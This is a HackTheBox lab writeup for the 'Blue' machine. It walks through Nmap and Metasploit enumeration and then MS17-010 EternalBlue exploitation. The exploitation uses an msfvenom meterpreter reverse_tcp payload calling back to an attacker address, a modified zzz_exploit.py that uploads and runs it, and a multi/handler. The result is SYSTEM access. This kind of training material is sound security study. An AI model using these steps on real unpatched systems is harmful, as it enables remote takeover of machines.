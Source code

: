 [HackTheBox] Blue
===============
date: 01/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
This is a writeup for HTB VM [Blue](https://www.hackthebox.eu/home/machines/profile/51). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_htb_blue/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_htb_blue/killchain.png.webp)

### TTPs
1\. `139/tcp/netbios-ssn/Microsoft Windows netbios-ssn`: [exploit_smb_ms17_010](https://github.com/7h3rAm/writeups#exploit_smb_ms17_010)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Fri Nov  1 17:05:41 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.blue/results/10.10.10.40/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.blue/results/10.10.10.40/scans/xml/_quick_tcp_nmap.xml 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up, received user-set (0.15s latency).
Scanned at 2019-11-01 17:05:41 PDT for 171s
Not shown: 991 closed ports
Reason: 991 resets
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  unknown      syn-ack ttl 127
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 57283/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12383/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 19006/udp): CLEAN (Timeout)
|   Check 4 (port 60472/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   2.10:
|_    Message signing enabled but not required
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 17:08:32 2019 -- 1 IP address (1 host up) scanned in 171.43 seconds
```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_blue/openports.png.webp)  

3\. We find SMB ports to be open on the target system. We run a Nmap NSE script scan to check if the SMB service is vulnerable:  
```
nmap -p139,445 --script smb-vuln-* --script-args=unsafe=1 10.10.10.40
```

![writeup.enumeration.steps.3.1](/static/files/posts_htb_blue/screenshot01.png.webp)  

4\. We find that the target system is missing patches from [MS17-010](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) bulletin and as such vulnerable. We can use the [zzz_exploit.py](https://github.com/worawit/MS17-010) EternalBlue exploit to gain interactive access. But before that we need to determine the target OS version and the name of an active pipe.  

5\. We first use Metasploit auxiliary module `scanner/smb/smb_version` to determine target OS version to be `Windows 7 Professional SP1 (build:7601) (name:HARIS-PC)`:  
```
msfconsole
  use auxiliary/scanner/smb/smb_version
  show options
  set RHOSTS 10.10.10.40
  run
```

![writeup.enumeration.steps.5.1](/static/files/posts_htb_blue/screenshot02.png.webp)  

6\. Then we use another Metasploit auxiliary module `scanner/smb/pipe_auditor` to find multiple open pipes `\netlogon, \lsarpc, \samr, \browser, \atsvc, \epmapper, \eventlog, \InitShutdown, \keysvc, \lsass, \LSM_API_service, \ntsvcs, \plugplay, \protected_storage, \scerpc, \srvsvc, \trkwks, \W32TIME_ALT, \wkssvc`:  
```
msfconsole
  use auxiliary/scanner/smb/pipe_auditor
  show options
  set RHOSTS 10.10.10.40
  run
```

![writeup.enumeration.steps.6.1](/static/files/posts_htb_blue/screenshot03.png.webp)  

### Findings
#### Open Ports
```
135/tcp    |  msrpc         |  Microsoft Windows RPC
139/tcp    |  netbios-ssn   |  Microsoft Windows netbios-ssn
445/tcp    |  microsoft-ds  |  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp  |  msrpc         |  Microsoft Windows RPC
49153/tcp  |  msrpc         |  Microsoft Windows RPC
49154/tcp  |  msrpc         |  Microsoft Windows RPC
49155/tcp  |  unknown       |
49156/tcp  |  msrpc         |  Microsoft Windows RPC
49157/tcp  |  msrpc         |  Microsoft Windows RPC
```

## Phase #2: Exploitation
1\. We now need to create a binary payload file. For this exploit, we will use `meterpreter` as the payload and then use `multi/handler` to catch the incoming shell connection. We then slightly tweak the exploit file to first copy the binary payload on to the target system and execute it:  
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.18 lport=443 -f exe >mtrptr.exe
subl zzz_exploit.py
  def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()
    print('creating file c:\\pwned.txt on the target')
    tid2 = smbConn.connectTree('C$')
    fid2 = smbConn.createFile(tid2, '/pwned.txt')
    smbConn.closeFile(tid2, fid2)
    smbConn.disconnectTree(tid2)
    + smb_send_file(smbConn, '/root/toolbox/writeups/htb.blue/mtrptr.exe', 'C', '/mtrptr.exe')
    + service_exec(conn, r'cmd /c c:\\mtrptr.exe')
msfconsole
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set lhost 10.10.14.18
  set lport 443
  set ExitOnSession false
  exploit -j
python zzz_exploit.py 10.10.10.40 netlogon
msfconsole
  sessions -i 1
  getuid
```

![writeup.exploitation.steps.1.1](/static/files/posts_htb_blue/screenshot04.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_blue/screenshot05.png.webp)  

![writeup.exploitation.steps.1.3](/static/files/posts_htb_blue/screenshot06.png.webp)  

![writeup.exploitation.steps.1.4](/static/files/posts_htb_blue/screenshot07.png.webp)  

![writeup.exploitation.steps.1.5](/static/files/posts_htb_blue/screenshot08.png.webp)  

2\. We then obtain further information about the system and read the contents of both user.txt and root.txt files to comeplete the challenge:  
```
sysinfo
cat C:\Users\haris\Desktop\user.txt
cat C:\Users\haris\Desktop\root.txt
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_blue/screenshot09.png.webp)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_blue/screenshot10.png.webp)  

![writeup.exploitation.steps.2.3](/static/files/posts_htb_blue/screenshot11.png.webp)  

## Phase #2.5: Post Exploitation
```
ntauth/system@HARIS-PC> id
NT AUTHORITY\SYSTEM
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> uname
Computer        : HARIS-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> ifconfig
Ethernet adapter Local Area Connection:
  Connection-specific DNS Suffix  . :
  IPv6 Address. . . . . . . . . . . : dead:beef::c530:b184:97a4:fd67
  Temporary IPv6 Address. . . . . . : dead:beef::4d8e:bdfd:4c8b:3189
  Link-local IPv6 Address . . . . . : fe80::c530:b184:97a4:fd67%11
  IPv4 Address. . . . . . . . . . . : 10.10.10.40
  Subnet Mask . . . . . . . . . . . : 255.255.255.0
  Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:db57%11
                                      10.10.10.2
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> users
Administrator
haris
```

## Loot
### Flags
```
C:\Users\haris\Desktop\user.txt: 4c546aea7dbee75cbd7.............
C:\Users\Administrator\Desktop\root.txt: ff548eb71e920ff6c0..............
```

## References
* <https://www.hackthebox.eu/home/machines/profile/51>  
* <https://medium.com/@sdgeek/hack-the-box-htb-blue-115b3f563125>  
